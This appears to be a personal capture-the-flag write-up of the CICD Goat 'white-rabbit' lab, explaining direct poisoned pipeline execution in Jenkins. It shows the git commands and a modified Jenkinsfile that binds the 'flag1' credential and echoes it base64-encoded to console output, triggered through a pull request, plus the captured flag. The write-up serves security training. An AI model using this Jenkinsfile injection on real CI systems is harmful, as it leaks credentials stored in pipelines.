


---
Category:
  - CI/CD
Difficulty: Easy
Platform: CICD Goat
tags:
  - d-ppe
  - poisoned-pipeline-execution
status: 3. Complete
---

>[!quote]
>I’m late, I’m late! No time to say ״hello, goodbye״! Before you get caught, use your access to the *Wonderland/white-rabbit repository* to steal the flag1 secret stored in the [Jenkins](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md) credential store [^jenkins-creds].

[^jenkins-creds]: [Secrets and credentials in Jenkins](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md#Secrets%20and%20credentials)

Scenario: 
- Secret is stored with the Global scope, which makes it **accessible to any pipeline** on the Jenkins instance. 
- `Jenkinsfile`[^jenkinsfile] is not protected. 
- https://www.jenkins.io/doc/book/pipeline/jenkinsfile/#handling-credentials 

[^jenkinsfile]: [Jenkins pipeline & Jenkinsfile](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md#Jenkins%20pipeline%20&%20Jenkinsfile)

Hint:
- Try to trigger a pipeline through the repository.
- How can you access credentials using the Jenkinsfile?

Solution: 
- [CICD-SEC-4 Direct Poisoned Pipeline Execution (D-PPE) ](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/CICD%20security.md#CICD-SEC-4%20Poisoned%20Pipeline%20Execution)
- https://github.com/cider-security-research/cicd-goat/blob/main/solutions/white-rabbit.md

---

>[!tldr]
>Because we have write access to the `Jenkinsfile` inside the *Wonderland/white-rabbit repository* in Gitea, we can inject arbitrary shell commands that access the Global scope and leak the flag. Submitting a PR containing our "poisoned" Jenkinsfile, we can trigger a new pipeline that will execute our injected commands.
>

Cloned, created a new branch and pushed the new Jenkinsfile: 
```bash
$ git clone http://localhost:3000/Wonderland/white-rabbit
$ git checkout -b dppe
Switched to a new branch 'dppe'
$ nano Jenkinsfile
...

$ git commit Jenkinsfile -m "poisoned"
[dppe e90238f] poisoned
 1 file changed, 4 insertions(+), 2 deletions(-)

$ git push -u origin dppe
Username for 'http://localhost:3000': thealice
Password for 'http://thealice@localhost:3000':
...
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
 * [new branch]      dppe -> dppe
branch 'dppe' set up to track 'origin/dppe'.
```

*Jenkinsfile*:
```json
pipeline {
    agent any
    environment {
        ...
        FLAG = credentials('flag1')
    }

    stages {
        stage ('Install_Requirements') {
            steps {
                sh """
	                echo $FLAG | base64
                """
            }
        }
...
```

Opened a PR in order to trigger the pipeline:


After the pipeline is executed, retrieved the various information from the console output:


>[!success] Flag
>`06165DF2-C047-4402-8CAB-1C8EC526C115`